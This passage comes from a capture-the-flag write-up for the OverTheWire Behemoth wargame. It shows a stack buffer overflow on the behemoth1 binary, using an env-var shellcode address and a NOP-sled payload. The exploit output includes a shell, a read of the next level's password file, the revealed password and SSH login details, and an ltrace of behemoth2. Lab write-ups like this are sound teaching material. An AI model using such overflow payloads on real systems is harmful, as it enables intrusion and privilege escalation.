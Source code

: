 Now, we'll find the address of the **SHELLCODE** variable outside GDB using the following code. You can compile it in **/tmp/**.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

Compile and run it :

```bash
behemoth1@behemoth:/behemoth$ cd /tmp/
behemoth1@behemoth:/tmp$ gcc -m32 find_addr.c -o find_addr
behemoth1@behemoth:/tmp$ ./find_addr SHELLCODE
SHELLCODE is at 0xffffde80
``` 

Finally, we can execute our exploit...

```bash
behemoth1@behemoth:/behemoth$ (python -c 'print 71 * "\x90" + "\x80\xde\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
eimahquuof
```

## Behemoth 02 Solution

**SSH :** *ssh behemoth2@narnia.labs.overthewire.org -p 2221*<br/>
**Pass :** *eimahquuof*

For this one I ran *ltrace* to see how it worked :

```bash
behemoth2@behemoth:/behemoth$ ltrace ./behemoth2
__libc_start_main(0x804856b, 1, 0xffffd764, 0x8048660 <unfinished ...>
getpid()                                                                 = 17924
sprintf("touch 17924", "touch %d", 17924)                                = 11
__lxstat(3, "17924", 0xffffd630)                                         = -1
unlink("17924")                                                          = -1
geteuid()                                                                = 13002
geteuid()                                                                = 13002
setreuid(13002, 13002)                                                   = 0
system("touch 17924"touch: cannot touch '17924': Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   = 256
sleep(2000^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```
